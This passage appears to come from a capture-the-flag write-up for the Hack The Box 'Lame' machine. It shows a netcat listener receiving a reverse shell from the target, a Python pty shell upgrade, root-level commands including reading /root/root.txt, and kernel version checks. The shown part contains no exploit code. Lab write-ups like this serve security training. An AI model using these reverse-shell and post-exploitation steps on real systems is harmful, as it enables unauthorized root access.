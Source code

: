 Let's check our netcat listener.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Lame]
└─$ rlwrap nc -lvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.216.140.
Ncat: Connection from 10.129.216.140:49678.

```
It looks like we have a connection with our target. We should upgrade the shell a bit and capture the flag in OSCP style.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Lame]
└─$ rlwrap nc -lvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.216.140.
Ncat: Connection from 10.129.216.140:49678.
python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/# whoami
whoami
root
root@lame:/# hostname
hostname
lame
root@lame:/# ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:96:65:b1  
          inet addr:10.129.216.140  Bcast:10.129.255.255  Mask:255.255.0.0
          inet6 addr: dead:beef::250:56ff:fe96:65b1/64 Scope:Global
          inet6 addr: fe80::250:56ff:fe96:65b1/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:265695 errors:0 dropped:0 overruns:0 frame:0
          TX packets:791 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:17843763 (17.0 MB)  TX bytes:85330 (83.3 KB)
          Interrupt:19 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:263 errors:0 dropped:0 overruns:0 frame:0
          TX packets:263 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:100301 (97.9 KB)  TX bytes:100301 (97.9 KB)

root@lame:/# cat /root/root.txt
cat /root/root.txt
HERE IS THE ROOT FLAG
root@lame:/# 

```
Since I am curious what Linux operating system is used I dig a bit deeper into this.
```bash
root@lame:/# uname -a
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
root@lame:/# uname -mrs
uname -mrs
Linux 2.6.24-16-server i686
```